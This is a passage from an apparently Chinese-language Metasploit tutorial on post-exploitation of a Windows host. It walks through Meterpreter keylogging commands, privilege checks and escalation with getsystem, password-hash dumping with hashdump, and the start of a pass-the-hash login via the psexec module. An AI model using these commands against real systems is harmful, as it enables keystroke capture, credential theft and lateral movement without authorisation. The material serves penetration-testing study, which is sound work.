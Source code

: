 或者使用

```
keyscan_start
```

在捕获后可以使用

```
keyscan_dump
```

来获取内容

如果需要停止，使用以下命令

```
keyscan_stop
```

## 提升权限

使用以下命令获取权限等级

```
getuid
```

得到目前我们是system权限

```
Server username: NT AUTHORITY\SYSTEM
```

如果我们不是system权限，我们可以直接使用以下命令来提升权限

```
getsystem
```

## 挖掘用户名和密码

Windows系统存储哈希值的方式一般为LAN Manager(LM),NT LAN Manager(NTLM),或者NT LAN Manager V2(NTLMv2)

在msf中，我们可以使用hashdump命令获取系统所有用户名和密码的哈希值

```
hashdump
```

此命令需要system权限

## 传递哈希值登录

我们使用`windows/smb/psexec`模块来传递哈希值

我们将获取到的哈希值set给SMBUser和SMBPass,比如我们获取到hash

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```
